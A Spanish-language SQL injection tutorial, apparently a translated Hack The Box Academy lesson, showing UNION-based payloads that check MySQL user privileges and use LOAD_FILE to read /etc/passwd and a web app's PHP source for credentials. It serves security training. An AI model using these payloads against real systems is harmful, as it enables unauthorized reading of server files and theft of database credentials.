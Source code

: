 # Reading Files

Además de recopilar datos de varias tablas y bases de datos dentro del DBMS, una inyección SQL también se puede aprovechar para realizar muchas otras operaciones, como leer y escribir archivos en el servidor e incluso obtener la ejecución de código remoto en el servidor de fondo.

---

# **Privilegios**

La lectura de datos es mucho más común que escribir datos, que está estrictamente reservado para usuarios privilegiados en los DBMS modernos, como puede conducir a la explotación del sistema, como veremos. Por ejemplo, en`MySQL`, el usuario de DB debe tener el`FILE`privilegio de cargar el contenido de un archivo en una tabla y luego volcar datos de esa tabla y leer archivos. Por lo tanto, comencemos por recopilar datos sobre los privilegios de nuestros usuarios dentro de la base de datos para decidir si leeremos y/o escribiremos archivos en el servidor de back-end.

### **Usuario de DB**

Primero, tenemos que determinar qué usuario estamos dentro de la base de datos. Si bien no necesariamente necesitamos privilegios de administrador de bases de datos (DBA) para leer datos, esto se requiere más en los DBMS modernos, ya que solo DBA se les da tales privilegios. Lo mismo se aplica a otras bases de datos comunes. Si tenemos privilegios de DBA, entonces es mucho más probable que tengamos privilegios de lectura de archivos. Si no lo hacemos, entonces tenemos que verificar nuestros privilegios para ver qué podemos hacer. Para poder encontrar a nuestro usuario de DB actual, podemos usar cualquiera de las siguientes consultas:

Código:sql

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

```

Nuestro`UNION`La carga útil de la inyección será la siguiente:

Código:sql

```sql
cn' UNION SELECT 1, user(), 3, 4-- -

```

o:

Código:sql

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -

```

Lo que nos dice a nuestro usuario actual, que en este caso es`root`:

![](https://academy.hackthebox.com/storage/modules/33/db_user.jpg)

Esto es muy prometedor, ya que es probable que un usuario raíz sea un DBA, lo que nos da muchos privilegios.

### **Privilegios de usuario**

Ahora que conocemos a nuestro usuario, podemos comenzar a buscar qué privilegios tenemos con ese usuario. En primer lugar, podemos probar si tenemos privilegios de super administrador con la siguiente consulta:

Código:sql

```sql
SELECT super_priv FROM mysql.user

```

Una vez más, podemos usar la siguiente carga útil con la consulta anterior:

Código:sql

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

```

Si tuvimos muchos usuarios dentro del DBMS, podemos agregar`WHERE user="root"`para mostrar solo privilegios para nuestro usuario actual`root`:

Código:sql

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

```

![](https://academy.hackthebox.com/storage/modules/33/root_privs.jpg)

La consulta regresa`Y`, que significa`YES`, indicando privilegios de superusuario. También podemos volcar otros privilegios que tenemos directamente del esquema, con la siguiente consulta:

Código:sql

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -

```

Desde aquí, podemos agregar`WHERE grantee="'root'@'localhost'"`Para mostrar solo a nuestro usuario actual`root`privilegios. Nuestra carga útil sería:

Código:sql

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -

```

Y vemos todos los posibles privilegios dados a nuestro usuario actual:

![](https://academy.hackthebox.com/storage/modules/33/root_privs_2.jpg)

Vemos que el`FILE`El privilegio se enumera para nuestro usuario, lo que nos permite leer archivos e incluso escribir archivos. Por lo tanto, podemos continuar intentando leer archivos.

---

# **Load_file**

Ahora que sabemos que tenemos suficientes privilegios para leer archivos del sistema local, hagamos eso utilizando el`LOAD_FILE()`función. El[Load_file ()](https://mariadb.com/kb/en/load_file/)La función se puede usar en MariadB / MySQL para leer datos de los archivos. La función toma solo un argumento, que es el nombre del archivo. La siguiente consulta es un ejemplo de cómo leer el`/etc/passwd`archivo:

Código:sql

```sql
SELECT LOAD_FILE('/etc/passwd');

```

Nota: Solo podremos leer el archivo si el usuario del sistema operativo que ejecuta MySQL tiene suficientes privilegios para leerlo.

Similar a cómo hemos estado usando un`UNION`inyección, podemos usar la consulta anterior:

Código:sql

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

```

![](https://academy.hackthebox.com/storage/modules/33/load_file_sqli.png)

Pudimos leer con éxito el contenido del archivo PASSWD a través de la inyección SQL. Desafortunadamente, esto también se puede usar para filtrar el código fuente de la aplicación.

---

# **Otro ejemplo**

Sabemos que la página actual es`search.php`. El APACHE TRABA DE APACHA predeterminado es`/var/www/html`. Intentemos leer el código fuente del archivo en`/var/www/html/search.php`.

Código:sql

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

```

![](https://academy.hackthebox.com/storage/modules/33/load_file_search.png)

Sin embargo, la página termina haciendo que el código HTML dentro del navegador. La fuente HTML se puede ver golpeando`[Ctrl + U]`.

![](https://academy.hackthebox.com/storage/modules/33/load_file_source.png)

El código fuente nos muestra todo el código PHP, que podría inspeccionarse aún más para encontrar información confidencial como credenciales de conexión de base de datos o encontrar más vulnerabilidades.
